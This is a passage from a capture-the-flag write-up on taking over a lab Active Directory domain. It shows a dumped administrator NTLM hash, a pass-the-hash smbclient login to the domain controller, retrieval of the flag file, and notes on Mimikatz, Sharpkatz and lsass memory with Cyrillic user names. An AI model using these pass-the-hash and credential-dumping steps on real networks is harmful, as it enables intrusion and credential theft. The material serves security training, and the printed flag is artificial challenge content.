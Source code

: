 ```
      CredentialCount    : 1
       NTLM              : C9876588D1B9FBACAA9A6F8D5642BFA8
```

With the administrator NTLM hash, we can connect to the domain controller:
```
$ smbclient //10.0.20.11/C$ -U администратор --pw-nt-hash C9876588D1B9FBACAA9A6F8D5642BFA8 -W CONTI.RU
smb: \> cd Users\администратор\Desktop\
smb: \Users\администратор\Desktop\> ls
  .                                  DR        0  Fri Mar 25 09:52:00 2022
  ..                                  D        0  Fri Apr  1 04:26:29 2022
  desktop.ini                       AHS      282  Fri Mar 25 04:06:13 2022
  flag.txt                            A       37  Fri Mar 25 09:53:05 2022

                26042623 blocks of size 4096. 22040327 blocks available
smb: \Users\администратор\Desktop\> get flag.txt 
getting file \Users\администратор\Desktop\flag.txt of size 37 as flag.txt (0.6 KiloBytes/sec) (average 0.6 KiloBytes/sec)
smb: \Users\администратор\Desktop\> ^C
```

And finally, get the second flag:
```
$ cat flag.txt
BZHCTF{pwning_ru_domain_is_fun_no?}
```

### Final thoughts

The challenge was not difficult from an Active Directory perspective. However, dealing with cyrillic characters was harder than we though because many tools don't support unicode correctly. We had to alternate between Linux and Windows tools to made it.

For instance, when passing the hash with Mimikatz the user name is replaced with litteral `?` during NTLM authentication. On the other side Sharpkatz seemed to work fine, but we had so mess up with lsass memory that nothing was working fine in the VM... On the other side, all linux tools seemed to accept unicode character except [PKINITTools](https://github.com/dirkjanm/PKINITtools) which if we're not mistaking relies on [minikerberos](https://github.com/skelsec/minikerberos) & [impacket](https://github.com/SecureAuthCorp/impacket).

Final words go to Kaluche, thanks very much for this challenge, we had a lot of fun!